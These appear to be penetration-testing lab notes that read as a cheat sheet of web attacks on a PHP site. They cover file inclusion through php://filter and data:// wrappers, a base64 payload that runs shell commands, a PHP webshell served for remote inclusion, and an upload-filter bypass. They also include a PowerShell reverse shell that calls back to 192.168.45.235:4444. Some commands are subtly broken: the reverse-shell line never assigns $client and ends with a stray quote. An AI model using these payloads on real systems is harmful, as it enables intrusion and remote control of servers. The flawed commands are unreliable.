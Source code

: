 #### php://filter 
basic filter -- won't always work for reasons above

```
curl http://mountaindesserts.com/meteor/index.php?page=php://filter/resource=admin.php
```

base64 encoded option works better
```
curl http://mountaindesserts.com/meteor/index.php?page=php://filter/convert.base64-encode/resource=admin.php
echo -n $result | base64 -d
```
#### data://
let's us execute plain text. although sometimes firewalls will filter out php snippets so we need to encode

```
curl "http://mountaindesserts.com/meteor/index.php?page=data://text/plain,<?php%20echo%20system('ls');?>"
```

base64 encoded version 

```
echo -n echo -n '<?php echo system($_GET["cmd"]);?>' | base64
curl "http://mountaindesserts.com/meteor/index.php?page=data://text/plain;base64,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==&cmd=ls"
```

### RFI

`/usr/share/webshells/php/simple-backdoor.php` simple php webshell

start a python web server

```
python3 -m http.server 8080
```

## File Uploads
### Executable File Upload

can sometimes fool extension checker by using capital letters -> script.PhP

Powershell one liner for reverse shell

```
New-Object System.Net.Sockets.TCPClient("192.168.45.235",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'
```

Sequence for powershell reverse shell
1. open up pwsh
2. copy the one liner
3. encode the line
4. send it via curl
